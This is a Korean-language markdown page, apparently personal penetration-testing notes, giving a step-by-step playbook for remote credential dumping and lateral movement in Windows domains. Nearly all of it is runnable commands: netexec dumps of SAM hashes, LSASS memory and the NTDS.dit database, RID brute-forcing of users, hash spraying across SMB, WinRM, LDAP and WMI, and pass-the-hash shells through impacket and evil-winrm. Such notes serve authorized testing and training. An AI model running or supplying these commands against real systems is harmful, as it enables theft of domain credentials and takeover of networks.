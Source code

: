 ```yaml
---
layout: page
title: Remote_Hashdump_&_Bruteforce_Hashes
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


# 원격 크리덴셜 덤프 및 활용 가이드

네트워크의 한 시스템에 대한 접근 권한을 획득했다면, 다음 목표는 그 권한을 발판 삼아 다른 시스템의 크리덴셜(해시, 티켓, 비밀번호)을 원격으로 탈취하여 공격 범위를 넓히는 것입니다. 이 가이드는 `netexec`과 `impacket`을 중심으로 원격 크리덴셜 덤프와 활용법을 설명합니다.

---

### **1. 원격 해시 덤프 (Remote Hash Dumping)**

- **목표:** 현재 보유한 자격증명을 사용하여 원격 시스템의 다양한 위치에 저장된 비밀번호 해시를 추출합니다.

#### **방법 A: SAM 하이브 덤프 (로컬 계정)**
- **설명:** 원격 시스템의 로컬 관리자 권한이 있을 때, SAM 데이터베이스를 덤프하여 로컬 계정들의 NTLM 해시를 획득합니다.

```bash
netexec smb $target -u <local_admin> -p <password> --sam | fgrep -v '[' | awk -F: '{print $4}' | tee dumped_hashes.txt
```

#### **방법 B: LSASS 메모리 덤프 (로그온된 계정)**
- **설명:** 원격 시스템의 로컬 관리자 권한으로 LSASS 프로세스 메모리를 덤프합니다. 최근에 로그온한 도메인 계정의 해시나 평문 비밀번호가 메모리에 남아있을 수 있습니다.

```bash
netexec smb $target -u <local_admin> -p <password> -M lsassy | fgrep '[' | awk '{print $6}' >> dumped_hashes.txt
```

#### **방법 C: NTDS.dit 덤프 (모든 도메인 계정)**
- **설명:** 도메인 컨트롤러(DC)의 관리자 권한이 있을 때, Active Directory의 모든 사용자 및 컴퓨터 계정의 해시가 저장된 `NTDS.dit` 데이터베이스 파일을 덤프합니다. 도메인 장악의 핵심 단계입니다.

```bash
netexec smb <DC_IP> -u <domain_admin> -p <password> -M ntdsutil | fgrep -v '[' | awk -F: '{print $4}' >> dumped_hashes.txt
```

#### **방법 D: rid-brute**
- **설명:**  도메인의 모든 사용자 목록을 가져옵니다.

```bash
netexec smb $target -u 'user1' -p 'Password1!' --rid-brute | grep -i 'sidtypeuser' | awk '{print$6}' | cut -d '\' -f2 | tee users.txt
```

---

### **2. 수집된 크리덴셜 정리 및 재사용**

- **목표:** 덤프 과정에서 지저분하게 수집된 해시들을 정리하고, 이를 다른 시스템에 대한 공격에 재사용하여 측면 이동(Lateral Movement)을 시도합니다.

#### **1단계: 해시 및 사용자 목록 정리**
- 덤프된 결과에서 순수한 NTLM 해시와 사용자 이름만 추출하여 별도의 파일로 저장합니다.

```bash
# 덤프 결과에서 해시만 추출하여 정렬 및 중복 제거
awk -F: '{print $4}' dumped_hashes.txt | sort -u > unique_hashes.txt

awk 'NF {print $1}' dumped_hashes.txt | sort | uniq | tee unique_hashes.txt

# 덤프 결과에서 사용자 이름만 추출
awk '{print $1}' dumped_users.txt > users.txt
```

#### **2단계: 크리덴셜 스프레이 (Credential Spraying)**
- 정리된 사용자 목록과 해시 목록을 사용하여 네트워크의 다른 시스템들에 대규모 인증을 시도합니다.

```bash
# 여러 프로토콜에 대해 수집한 해시로 인증 시도
netexec smb $target -u users.txt -H unique_hashes.txt --continue-on-success
netexec winrm $target -u users.txt -H unique_hashes.txt --continue-on-success
netexec ldap $target -u users.txt -H unique_hashes.txt --continue-on-success
netexec wmi $target -u users.txt -H unique_hashes.txt --continue-on-success
```

---

### **3. 셸 획득**

- **목표:** 새로 찾아낸 유효한 자격증명을 사용하여 다른 시스템의 셸을 획득합니다.

```bash
rlwrap impacket-psexec <domain>/<user>@$new_target -hashes :<ntlm_hash>
```

```bash
evil-winrm -i $new_target -u <user> -H <ntlm_hash>
```

```bash
rlwrap impacket-wmiexec <domain>/<user>@$new_target -hashes :<ntlm_hash>
```

